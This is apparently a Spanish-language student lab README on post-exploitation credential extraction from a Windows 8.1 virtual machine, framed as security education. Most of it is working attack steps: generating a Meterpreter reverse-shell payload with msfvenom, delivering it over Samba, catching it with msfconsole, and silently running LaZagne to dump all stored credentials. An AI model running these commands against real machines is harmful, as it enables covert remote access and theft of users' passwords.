 #  Laboratorio de Ingeniería Social — Extracción de Credenciales en Windows 8.1

##REALIZADO POR:

NEREA BASTIDAS --- DIEGO YANDUN

##  Descripción del laboratorio

Este laboratorio simula un escenario de post-explotación en un entorno virtual controlado. El objetivo es demostrar cómo un atacante puede extraer credenciales almacenadas en una máquina Windows 8.1 utilizando herramientas como Meterpreter y LaZagne, sin que el usuario lo note. Todo el ejercicio se realiza con fines educativos y de concientización en ciberseguridad.

## Herramientas utilizadas

- Kali Linux (máquina atacante)
- Windows 8.1 (máquina víctima)
- LaZagne — herramienta de extracción de credenciales
- Meterpreter — ejecución remota
- msfvenom / msfconsole — generación y manejo de payloads
- Samba — para compartir archivos entre máquinas virtuales

##  Objetivo

Mostrar cómo un atacante puede ejecutar herramientas de extracción de credenciales en una máquina Windows comprometida, usando acceso remoto y técnicas silenciosas. El laboratorio permite entender los riesgos y aplicar medidas de defensa en entornos reales.

##  Instrucciones paso a paso

### 1. Preparación del entorno

- Inicia Kali Linux y Windows 8.1 en máquinas virtuales.
- Asegúrate de que ambas máquinas estén en la misma red virtual (puente o NAT).

### 2. Instalación de dependencias en Kali
sudo apt update

sudo apt install git python3 python3-pip mingw-w64 -y

git clone https://github.com/AlessandroZ/LaZagne.git

cd LaZagne

pip3 install -r requirements.txt

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.158 LPORT=4444 -f exe -o payload.exe

cp /home/kali/Desktop/payload.exe /home/kali/samba_share/

sudo systemctl restart smbd

sudo systemctl start nmbd

sudo systemctl status smbd

####Acceder desde Windows a la carpeta compartida

________En el explorador de archivos de Windows, accede a \\<IP_Kali>\samba_share

________Copia payload.exe y LaZagne.exe al escritorio de Windows

msfconsole

use exploit/multi/handler

set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST 192.168.101.83

set LPORT 4444

exploit

#######Ejecutar LaZagne desde sesión Meterpreter

execute -f "C:\\Users\\Administrator\\Desktop\\LaZagne.exe" -a "all -oA -output 

C:\\Users\\Administrator\\Desktop\\resultados" -H





